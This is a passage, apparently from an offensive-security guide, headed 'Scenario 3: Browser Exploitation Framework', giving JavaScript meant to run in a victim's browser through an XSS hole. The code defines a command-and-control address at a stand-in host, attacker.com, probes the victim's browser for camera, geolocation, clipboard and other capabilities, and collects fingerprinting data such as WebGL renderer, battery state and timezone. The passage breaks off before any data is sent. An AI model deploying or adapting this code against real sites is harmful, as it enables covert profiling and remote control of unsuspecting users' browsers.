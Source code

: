 ### Scenario 3: Browser Exploitation Framework

**Objective**: Advanced browser exploitation using XSS as entry point

```javascript
// Browser Exploitation Framework via XSS
class BrowserExploitFramework {
    constructor() {
        this.exploits = [];
        this.capabilities = this.detectCapabilities();
        this.c2Server = 'https://attacker.com/c2';
    }
    
    detectCapabilities() {
        return {
            webrtc: !!window.RTCPeerConnection,
            geolocation: !!navigator.geolocation,
            camera: !!navigator.mediaDevices,
            notifications: 'Notification' in window,
            serviceWorker: 'serviceWorker' in navigator,
            webgl: !!document.createElement('canvas').getContext('webgl'),
            webassembly: typeof WebAssembly === 'object',
            clipboard: !!navigator.clipboard,
            battery: !!navigator.getBattery,
            deviceMemory: !!navigator.deviceMemory
        };
    }
    
    async gatherSystemInfo() {
        const info = {
            userAgent: navigator.userAgent,
            platform: navigator.platform,
            language: navigator.language,
            cookieEnabled: navigator.cookieEnabled,
            onLine: navigator.onLine,
            screen: {
                width: screen.width,
                height: screen.height,
                colorDepth: screen.colorDepth
            },
            timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
            capabilities: this.capabilities
        };
        
        // Advanced fingerprinting
        if (this.capabilities.webgl) {
            const canvas = document.createElement('canvas');
            const gl = canvas.getContext('webgl');
            info.webgl = {
                vendor: gl.getParameter(gl.VENDOR),
                renderer: gl.getParameter(gl.RENDERER)
            };
        }
        
        if (this.capabilities.battery) {
            const battery = await navigator.getBattery();
            info.battery = {
                level: battery.level,
                charging: battery.charging
            };
        }
        
        return info;
    }
```